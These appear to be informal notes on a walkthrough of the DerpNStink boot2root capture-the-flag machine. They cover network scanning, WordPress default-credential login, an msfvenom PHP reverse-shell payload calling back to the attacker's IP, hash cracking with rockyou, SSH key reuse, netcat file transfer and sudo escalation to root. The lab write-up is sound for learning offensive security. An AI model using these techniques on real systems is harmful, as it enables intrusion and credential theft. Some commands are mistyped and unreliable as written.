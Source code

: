 # The DerpNStink CTF
Welcome! Today Jack is going to walkthrough Derp N Stink CTF to break into another machine with a different objective. 
## Walkthrough
- First, we check out the description of the CTF, we found that he is dealing with a boot2root ubuntu based virtual machine, with DHCP setting 
- Goal is remotely attack the VM and find  all 4 flags to destroy the machine
- The he used terminal to find out ip adress through IP/If Config, found out that is own IP adress is 192.168.170.128
- Then, he used command: nmap -sS 192.168.170.* (or 0/24) to get all the IP adress on this network that he is in to find the vurnerable machine
- The -sS also gave him the port, it give him detail of 3 port ssh(22), ftp(21), http(80), all of them are open. 
- There is also another IP adress 192.168.170.254 which probably the machine of target
- Which he used the http port and type in the IP adress of 192.168.170.131, it gives him a website that include a image, background and a purple words
- Then Jack check the sources code (element), he found the html code, in which he found flag1 when he expand it. 
- Then he check for robot.txt of the IP adress, but there is nothing
- Then he ran Dirbuster, on the http ip adress and find the wordlist to applied on the website. 
- Which it create two new directorues and a word press directories of the same website, 
- Jack found the wordpress of the DerpNStink CTF, which give detail of the page 
- So, he open wordpress and log in to it. Username is admin (using the tool of wpscan, give vunerability and username list), or hydra (dictonary based) and metasploit, or burpsuite.
- So, its admin for user and admin for pass and got into wordpress.
- Inside wordpress there is a menu to create blog, and the ability to give permission on certain bit of the site to other user.
- Jack now had access to all the slideshow, in which he is definitely not the admin. 
- Jack is back to use wpscan, and he used the url scan of the website. 
- He found data on the vunerability list, in which each vunerability to explain what it the vunerability is, how to break into the vunerability, and date of fixed. 
- So, Jack file out detail on the vunerability on exploit database. 
- And he download the script to break in the vunerability
- Back on terminal, he used the command: msfvenom -p php/meterpreter_reverse-tcp-LHOST = 192.168.170.128 LPORT = 4444 -f raw . shell.php, to reverse engineer the webite with shell.
- After that, he is running the exploit and the python command to upload the shell to gain access to the machine. His payload ios a reverse tcp shell
- After gaining access to the machine, check whoami, found two folder. One being stinky
- Then he check all the website file through weblog ls, this give him acess to IP file, password and userfile. Password might be encoded so use hashid.
- Exploit is using the vunerability, payload is the tool of to exploitation
- HE figured out that htere rwould be another user on WPscan as he can't gain access opn the first one
- Once he ran the weblog, he found the weblog to the website which has the config file, tranfered that to his own machine and log in to wordpress. 
- This give he info on the another account, with the password in hash. He used hashcat to decifer it and move the hash into a file. 
- Ran that file into the rockyou word list
- Password is "wedgie57", and login into unclestinky and found flag2
- Now knowing that ssh is also open for thie vunerable machine, 
- He use ftp to get into the computer, found a file called derp.txt. The file has text and clue to another file
- He found a private key for the ssh, its a rsa cipher. 
- So he used ssh -i -key.txt to the machine. Permission is to high so he change the permission on the machine.
- Now, he is now stinky, he procedd to check all the file. Found a pcap file and flag.txt, which has flag 3.
- Jack now proceed to break the pcap file, in which he tried to push the file to his own machine by netcat. 
- Back on wireshark, he looking on the conversation on stinky. Which also show info on mrderp user on wordpress, found the password.
- Now he log into mrderp, scan for file, ran sudo -l  on mrderp, in which he found the code (ALL) /home/mrderp/binaries/derpy*
- changemod the derp.sh to derp, gain access to root through sudo, found the file of flag4. 
